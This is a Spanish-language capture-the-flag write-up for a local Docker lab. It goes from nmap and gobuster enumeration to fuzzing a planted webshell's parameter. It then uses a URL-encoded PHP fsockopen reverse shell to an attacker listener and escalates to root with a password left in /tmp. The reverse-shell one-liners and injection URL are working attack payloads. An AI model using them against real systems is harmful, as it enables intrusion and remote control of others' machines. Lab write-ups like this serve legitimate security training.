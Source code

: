 ## 1. Reconocimiento Inicial con Nmap

```bash
nmap -sC -sV --open 172.17.0.2
```

 **Resultado del escaneo** 
```
80/tcp open  http    Apache httpd 2.4.57 ((Debian))  
|_http-server-header: Apache/2.4.57 (Debian)  
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)  
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

La salida de `nmap` indica que el puerto 80 está abierto y que un servidor web Apache httpd versión 2.4.57 (Debian) está en ejecución. El título de la página web es "Academia de Inglés (Inglis Academi)", lo que nos da una pista sobre el tipo de contenido alojado. Además, se observa una nota en el ejercicio que dice: "Guardo un secretito en /tmp ;)", lo que sugiere que hay información relevante en el directorio `/tmp` del sistema, posiblemente para la fase de escalada de privilegios.

## 2. Enumeración de Contenido Web con Gobuster

Dado que se ha identificado un servidor web, el siguiente paso es enumerar directorios y archivos ocultos o no enlazados. 

```bash
gobuster dir -u http://172.17.0.2 -w /home/eduard/WordList/directories.txt -x php,txt,html,php.bak
```

 **Resultado de Gobuster**
```
/index.html           (Status: 200) [Size: 2510]  
/shell.php            (Status: 500) [Size: 0]  
/warning.html         (Status: 200) [Size: 315]
```

Revela varios archivos interesantes:

*   `/index.html`: La página principal del sitio web.
*   `/shell.php`: Un archivo PHP que devuelve un código de estado `500` (Error Interno del Servidor) y un tamaño de 0 bytes. Esto es una fuerte indicación de que podría ser una webshell, pero que requiere un parámetro específico para funcionar correctamente.
*   `/warning.html`: Un archivo HTML que contiene un mensaje relevante.

Al acceder a `warning.html`, se encuentra el siguiente mensaje:

> Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...

Esta es una pista crucial que confirma la existencia de una webshell (`shell.php`) y que su funcionamiento depende de un parámetro desconocido. El objetivo ahora es descubrir este parámetro.

---
Antes de atacar shell.php,  descargamos las imágenes con wget `htttp://<ip><img>` y usamos steghide y exiftool en ellas en busca de información oculta, pero sin obtener resultado.


### 3. Fuzzing de Parámetros con Wfuzz
El siguiente paso lógico es realizar un fuzzing de parámetros en `shell.php` para identificar el correcto que activa la funcionalidad de la webshell. 

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```

**Resultado**: "parameter".

El resultado del `wfuzz` devuelve 2 líneas, a diferencia de otros intentos que devuelven 0 líneas. Esto indica que `shell.php?parameter=id` está ejecutando el comando `id` y devolviendo su salida. Esto confirma que se ha logrado una Ejecución Remota de Comandos (RCE).

![Fuzzing](.Imagenes/WhereIsMyWebShell_Fuzzing.png)

## 4. Obtención de una Reverse Shell

Una vez que se ha confirmado la RCE, el siguiente paso es obtener una `reverse shell` para tener una conexión interactiva y estable con la máquina objetivo. Una `reverse shell` es una conexión iniciada desde la máquina objetivo hacia la máquina del atacante, lo que a menudo evade los firewalls que bloquean las conexiones entrantes.

### Preparación del Listener en la Máquina Atacante

En la máquina del atacante, se configura un `listener` utilizando `netcat` para esperar la conexión entrante de la `reverse shell`.

```bash
nc -lnvp 443
```


### Generación y Ejecución de la PHP Reverse Shell

Se busca una `PHP reverse shell` adecuada en recursos como `https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/`. La plantilla utilizada es:
![Reverse_Shell](WhereIsMyWebShell_Reverse_Shell.png)
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Se ajusta la IP y el puerto a los de la máquina atacante (`172.17.0.1` y `443` respectivamente):

```php
php -r '$sock=fsockopen("172.17.0.1",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
*   `fsockopen("172.17.0.1",443)`: Abre un socket TCP y se conecta a la IP y puerto especificados de la máquina atacante.
*   `exec("/bin/sh -i <&3 >&3 2>&3")`: Ejecuta una shell interactiva (`/bin/sh -i`) y redirige la entrada, salida y error estándar a través del socket abierto, estableciendo así la `reverse shell`.

Finalmente, esta cadena PHP se codifica en URL para ser inyectada a través del parámetro `parameter` de `shell.php`:

```
http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen(%22172.17.0.1%22%2C443)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

Al acceder a esta URL en el navegador (o a través de `curl`), el navegador se quedará "colgado" o mostrará un error, lo que es una señal de que la `reverse shell` se ha ejecutado y la conexión se ha establecido con el `listener` de `netcat` en la máquina atacante. Se verifica el usuario actual con `whoami`:

```bash
$ whoami  
# www-data
```

## 5. Escalada de Privilegios

La pista inicial "Guardo un secretito en /tmp ;)" es fundamental para la escalada de privilegios. 

Se navega al directorio `/tmp`:

```bash
cd /tmp
```

Un `ls` normal no muestra nada, lo que sugiere que el archivo es oculto. Por lo que usamos la opción `-a`

```bash
ls -a
```

Revela el archivo oculto `.secret.txt`:

```
drwxrwxrwt 1 root root  6 Aug  1 17:33 .  
drwxr-xr-x 1 root root 39 Aug  1 17:33 ..  
-rw-r--r-- 1 root root 21 Apr 12  2024 .secret.txt
```

Finalmente, se lee el contenido de `.secret.txt` para obtener la contraseña:

```bash
$ cat .secret.txt  
contraseñaderoot123
```

La contraseña `contraseñaderoot123` es la clave para escalar a `root`.

### Escalada a Root 

Con la contraseña de `root`, se utiliza el comando `su` (substitute user) para cambiar al usuario `root`.

```bash
$ su -
Password: contraseñaderoot123
```

*   `su -`: El guion (`-`) después de `su` indica que se debe iniciar una shell de login para el usuario `root`, lo que significa que se cargará el entorno completo del usuario `root` (incluyendo su PATH y variables de entorno), lo cual es importante para asegurar que todos los comandos de `root` estén disponibles.


```bash
whoami  
root
```

Esto confirma que la escalada de privilegios ha sido exitosa y se tiene control total sobre el sistema como usuario `root`.
